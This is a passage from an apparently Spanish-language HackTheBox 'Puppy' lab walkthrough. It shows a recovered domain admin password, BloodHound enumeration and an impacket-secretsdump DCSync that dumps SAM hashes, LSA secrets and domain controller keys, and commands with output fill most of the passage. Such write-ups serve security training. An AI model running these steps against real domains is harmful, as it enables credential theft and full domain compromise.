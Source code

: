 [CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!


BloodHound otravez

[root@kali] /home/kali/Puppy  
❯ bloodhound-python -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 21 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
WARNING: DCE/RPC connection failed: [Errno Connection error (10.10.11.70:445)] timed out
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 01M 20S
INFO: Compressing output into 20250528153956_bloodhound.zip

# 15- DCSync
Ahora puedes usar DCSync directamente
[root@kali] /home/kali/Puppy  
❯ impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!'@10.10.11.70
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xa943f13896e3e21f6c4100c7da9895a6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::                                                          
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                  
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
